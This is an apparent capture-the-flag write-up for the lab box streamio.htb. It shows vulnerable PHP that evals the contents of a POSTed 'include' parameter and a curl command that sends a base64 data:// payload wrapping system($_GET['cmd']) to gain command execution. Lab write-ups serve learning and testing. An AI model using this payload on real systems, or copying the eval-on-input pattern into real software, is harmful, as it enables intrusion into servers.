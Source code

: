 ```php
</div>
<?php
} # while end
?>
<br><hr><br>
<form method="POST">
<input name="include" hidden>
</form>
<?php
if(isset($_POST['include']))
{
    if($_POST['include'] !== "index.php" ) 
eval(file_get_contents($_POST['include']));
else
echo(" ---- ERROR ---- ");
}
?>		
```

## Reverse shell as yoshihide.


Notice the code at the end of the file and the method: eval `file_get_contents`

the function takes the content of the data POSTed via the parameter include and pass it to `eval`. In other words, it evaluates it. 

Found this https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1

So the code above gives us the oppertunity to include php code inside the master.php which we get from the post parameter `include` 

looking at `file_get_contents` I found this in the manuale: https://www.php.net/manual/en/wrappers.data.php

Because I tried to inject normal php shell but didn't work. So we need to pass base64 payload through wrappers. Here's an example from the code below: 

```php
<?php
// prints "I love PHP"
echo file_get_contents('data://text/plain;base64,SSBsb3ZlIFBIUAo=');
?>
```

Let's do it using curl. We take a payload and conver it to base64

![](@attachment/Clipboard_2022-09-12-15-33-28.png)


```bash
curl -k --data-binary "include=data://text/plain;base64,c3lzdGVtKCRfR0VUWydjbWQnXSk7" -H "Cookie: PHPSESSID=irrhssh3g3mmf41mu64v6oei7q" "https://streamio.htb/admin/?debug=master.php&cmd=ls"
```
![](@attachment/Clipboard_2022-09-12-15-34-18.png)
